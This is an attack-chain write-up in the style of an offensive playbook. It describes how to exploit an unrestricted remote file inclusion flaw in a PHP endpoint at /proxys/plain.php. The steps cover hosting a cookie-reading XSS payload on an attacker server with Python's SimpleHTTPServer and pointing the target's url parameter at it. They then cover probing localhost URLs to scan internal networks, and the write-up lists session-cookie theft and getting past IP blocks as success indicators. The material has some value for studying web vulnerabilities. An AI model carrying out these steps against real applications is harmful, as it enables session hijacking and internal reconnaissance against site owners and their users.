

# Remote File Inclusion in plain.php Leading to XSS Execution and SSRF Scanning

Multi-stage attack chain demonstrating exploitation of an unrestricted RFI vulnerability in the plain.php endpoint of a PHP web application, allowing arbitrary external file inclusion that leads to XSS payload execution and potential SSRF for internal network reconnaissance.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Python-SimpleHTTPServer]]

### Target Environment

- PHP-based web application
- Exposed endpoint at /proxys/plain.php
- Network access to port 80

### Initial Access Requirements

- Public access to the target endpoint
- Attacker-controlled server for hosting malicious files
- No authentication required for the vulnerable parameter

## Detailed Attack Procedures

### Step 1: Host Malicious Content
procedure: [[procedures/Host-Malicious-HTML-for-RFI-Exploitation]]

**Objective**: Set up an attacker-controlled server to host a malicious HTML file containing JavaScript for XSS exploitation.

**Instructions**: Create a file named t.html with malicious content, such as `<script>alert(document.cookie);</script>`, then start a simple HTTP server using [[commands/start-python-simplehttpserver]]:

```bash
python -m SimpleHTTPServer 80
```

**Expected Output**: Server logs indicating it's serving on port 80, ready to receive requests from the target.

**Success Indicators**:
- Server starts without errors
- t.html is accessible via http://attacker-ip/t.html from a browser

### Step 2: Include via RFI
procedure: [[procedures/Exploit-RFI-in-plain-php-Endpoint]]

**Objective**: Exploit the RFI vulnerability to include and render the malicious external file in the target's context, triggering XSS.

**Instructions**: Access the vulnerable endpoint http://██████████/proxys/plain.php with the url parameter set to the attacker's hosted file, e.g., http://attacker-ip/t.html, along with operation and output parameters as needed.

**Expected Output**: The target's page renders the included content, executing the JavaScript payload (e.g., alert box showing cookies).

**Success Indicators**:
- Malicious HTML/JS loads in the target's page
- XSS payload executes, such as stealing session cookies

### Step 3: Execute XSS and Scan Internals
procedure: [[procedures/Validate-Domain-Based-RFI-Post-Mitigation]]

**Objective**: Validate persistent exploitation via domain-based inclusion and demonstrate SSRF for internal scanning despite partial IP mitigations.

**Instructions**: Request the endpoint using a domain like http://justifysecurity.com/ to confirm domain-based RFI works, and test internal URLs (e.g., http://127.0.0.1/internal) via the url parameter to scan or access internal resources.

**Expected Output**: External domain content renders successfully; internal responses reveal network details if SSRF succeeds.

**Success Indicators**:
- Domain-based inclusion bypasses IP blocks
- Internal endpoints respond, enabling reconnaissance or compromise

## Attack Chain Summary

### Key Achievements

1. Successful RFI to hijack the page with attacker content
2. XSS execution stealing user cookies without authentication
3. SSRF-like scanning of internal networks via unrestricted URL parameter

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Discovery]]

---

*Last updated: 2023-10-01T00:00:00Z*
